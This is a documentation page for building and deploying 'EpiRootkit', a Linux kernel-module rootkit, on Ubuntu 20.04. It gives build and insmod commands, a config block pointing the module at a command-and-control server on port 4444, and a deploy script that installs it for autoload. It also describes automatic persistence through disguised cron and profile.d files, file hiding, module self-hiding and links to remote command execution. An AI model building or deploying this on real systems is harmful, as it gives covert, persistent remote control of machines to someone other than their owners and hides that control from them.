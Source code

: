 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Deployment Architecture

EpiRootkit follows a **two-stage deployment** approach:
- **Stage 1 (Loader)**: `scripts/deploy_rootkit.sh` handles proper module deployment
- **Stage 2 (Runtime)**: Rootkit focuses on functionality, not self-deployment

This separation follows Linux kernel module best practices and eliminates unusual self-copying behavior.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Build Process

### 1. Navigate to Rootkit Directory
```bash
cd rootkit
```

### 2. Build the Module
```bash
make clean && make
```

**Expected output:**
```
make -C /lib/modules/5.4.0-74-generic/build M=/path/to/rootkit modules
  CC [M]  /path/to/rootkit/core/main.o
  CC [M]  /path/to/rootkit/commands/commands.o
  CC [M]  /path/to/rootkit/commands/auth_commands.o
  CC [M]  /path/to/rootkit/commands/exec_commands.o
  CC [M]  /path/to/rootkit/commands/file_commands.o
  CC [M]  /path/to/rootkit/commands/status_commands.o
  CC [M]  /path/to/rootkit/commands/stealth_commands.o
  CC [M]  /path/to/rootkit/network/connection.o
  CC [M]  /path/to/rootkit/network/socket.o
  CC [M]  /path/to/rootkit/network/keepalive.o
  CC [M]  /path/to/rootkit/stealth/stealth.o
  CC [M]  /path/to/rootkit/persistence/persistence.o
  CC [M]  /path/to/rootkit/security/auth.o
  CC [M]  /path/to/rootkit/security/crypto.o
  CC [M]  /path/to/rootkit/utils/sysfs.o
  LD [M]  /path/to/rootkit/epirootkit.ko
```

### 3. Verify Build
```bash
ls -la epirootkit.ko
file epirootkit.ko
```

Should show: `ELF 64-bit LSB relocatable, x86-64`

## Configuration

### Network Settings
Edit `rootkit/core/config.h` before building:

```c
#define C2_SERVER_IP "192.168.64.1"    // Your C2 server IP
#define C2_SERVER_PORT 4444             // C2 server port
```

### Feature Settings
```c
#define ENABLE_ENCRYPTION 0      // Encryption disabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Deployment Methods

### Method 1: Deployment Script (Recommended)
Uses the proper loader stage for deployment:

```bash
# Deploy using the deployment script
sudo ./scripts/deploy_rootkit.sh

# Or specify custom module path
sudo ./scripts/deploy_rootkit.sh /path/to/epirootkit.ko
```

**What the deployment script does:**
1. **Validates** module and root privileges
2. **Deploys module** to `/lib/modules/$(uname -r)/extra/`
3. **Sets up autoload** via `/etc/modules-load.d/epirootkit.conf`
4. **Updates dependencies** with `depmod -a`
5. **Loads module** immediately
6. **Verifies** deployment

### Method 2: Manual Loading (Basic)
For development and testing:

```bash
sudo insmod epirootkit.ko
```

### Verify Loading
```bash
# Check if loaded (may be hidden if stealth enabled)
lsmod | grep epirootkit

# Alternative check if module is hidden
ls -la /sys/module/epirootkit

# Check kernel messages
dmesg | tail -10
```

**Expected kernel messages:**
```
[  123.456] EpiRootkit: Starting initialization (v1.0.0)
[  123.457] EpiRootkit: Connection module initialized
[  123.458] EpiRootkit: Stealth module initialized
[  123.459] EpiRootkit: Persistence module initialized
[  123.460] EpiRootkit: All subsystems initialized successfully
[  123.461] EpiRootkit: Attempting connection to 192.168.64.1:4444
```

## Deployment Management

### Check Status
```bash
sudo ./scripts/deploy_rootkit.sh status
```

### Complete Removal
```bash
sudo ./scripts/deploy_rootkit.sh uninstall
```

## Automatic Features

When the module loads, it automatically:

1. **Connects to C2 server** (if running)
2. **Installs runtime persistence** (cron, shell profiles)
3. **Enables file hiding** (hides files with specific prefixes)
4. **Starts keepalive system** (60-second ping/pong)

**Note**: Module deployment persistence is handled by the deployment script, not the runtime module.

## Module Management

### Unload Module
```bash
sudo rmmod epirootkit
# Or use Makefile target
sudo make remove
```

### Manual Persistence Cleanup
```bash
# Remove runtime persistence mechanisms only
sudo rm -f /etc/cron.d/system-update
sudo rm -f /etc/profile.d/system-env.sh

# Module deployment persistence (handled by deployment script)
sudo rm -f /etc/modules-load.d/epirootkit.conf
sudo rm -f /lib/modules/$(uname -r)/extra/epirootkit.ko
```

### Clean Build
```bash
make clean
```

## File Locations

### Deployment Files (by deploy script)
- **Module**: `/lib/modules/$(uname -r)/extra/epirootkit.ko`
- **Autoload**: `/etc/modules-load.d/epirootkit.conf`

### Runtime Files (by rootkit)
- **Cron**: `/etc/cron.d/system-update`
- **Profile**: `/etc/profile.d/system-env.sh`

## Next Steps

1. **[Start C2 Server](../03-attacking-program/overview.md)**: Set up command & control
2. **[Authentication](./connection-authentication.md)**: Connect and authenticate
3. **[Use Commands](./features/command-execution.md)**: Execute remote commands

